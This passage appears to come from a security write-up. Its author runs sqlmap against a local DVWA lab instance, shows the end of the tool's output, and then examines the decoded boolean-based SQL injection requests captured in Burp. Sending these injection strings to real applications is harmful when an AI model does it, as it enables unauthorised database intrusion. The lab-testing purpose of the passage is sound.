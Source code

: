     [22:47:22] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
    [22:47:22] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
    [22:47:22] [INFO] testing 'MySQL > 5.0.11 AND time-based blind (comment)'
    [22:47:22] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (heavy query)'
    [22:47:23] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (heavy query - comment)'
    [22:47:23] [INFO] testing 'MySQL > 5.0.11 OR time-based blind'
    [22:47:23] [INFO] testing 'MySQL < 5.0.12 OR time-based blind (heavy query)'
    [22:47:23] [INFO] testing 'MySQL >= 5.0 time-based blind - Parameter replace'
    [22:47:23] [INFO] testing 'MySQL < 5.0 time-based blind - Parameter replace (heavy queries)'
    [22:47:23] [INFO] testing 'MySQL time-based blind - Parameter replace (bool*int)'
    [22:47:23] [INFO] testing 'MySQL time-based blind - Parameter replace (MAKE_SET)'
    [22:47:23] [INFO] testing 'MySQL time-based blind - Parameter replace (ELT)'
    [22:47:23] [INFO] testing 'MySQL >= 5.0.11 time-based blind - GROUP BY and ORDER BY clauses'
    [22:47:23] [INFO] testing 'MySQL < 5.0.12 time-based blind - GROUP BY and ORDER BY clauses (heavy query)'
    [22:47:23] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
    [22:47:25] [INFO] testing 'MySQL UNION query (random number) - 1 to 10 columns'
    [22:47:27] [INFO] testing 'MySQL UNION query (NULL) - 11 to 20 columns'
    [22:47:29] [INFO] testing 'MySQL UNION query (random number) - 11 to 20 columns'
    [22:47:30] [INFO] testing 'MySQL UNION query (NULL) - 21 to 30 columns'
    [22:47:32] [INFO] testing 'MySQL UNION query (random number) - 21 to 30 columns'
    [22:47:33] [INFO] testing 'MySQL UNION query (NULL) - 31 to 40 columns'
    [22:47:35] [INFO] testing 'MySQL UNION query (random number) - 31 to 40 columns'
    [22:47:36] [INFO] testing 'MySQL UNION query (NULL) - 41 to 50 columns'
    [22:47:38] [INFO] testing 'MySQL UNION query (random number) - 41 to 50 columns'
    [22:47:39] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [22:47:39] [WARNING] using unescaped version of the test because of zero
    knowledge of the back-end DBMS. You can try to explicitly set it using option '--dbms'
    [22:47:41] [WARNING] GET parameter 'Submit' is not injectable
    [22:47:41] [CRITICAL] all tested parameters appear to be not injectable.
    Try to increase '--level'/'--risk' values to perform more tests. Also, you
    can try to rerun by providing either a valid value for option '--string'
    (or '--regexp')

    [*] shutting down at 22:47:41

    C:\Users\Felix Ingram\Documents\development\sqlmap [master]
    [23++]:>

That's 119 lines of output. Let's see what went through Burp. Here's the first
request:

    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus%29%20AND%201424
    %3D3074%20AND%20%284974%3D4974&Submit=Submit

Decoded version:

    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus) AND 1424
    =3074 AND (4974=4974&Submit=Submit

Seems sensible.     

    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus) AND 9178=9178 AND (3817=3817&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus) AND 8476=1778 AND (8681=8681&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus AND 3079=3387&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus AND 9178=9178&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus AND 8079=1538&Submit=Submit
    http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus') AND 6684=8259 AND ('SdOi'='SdOi&Submit=Submit
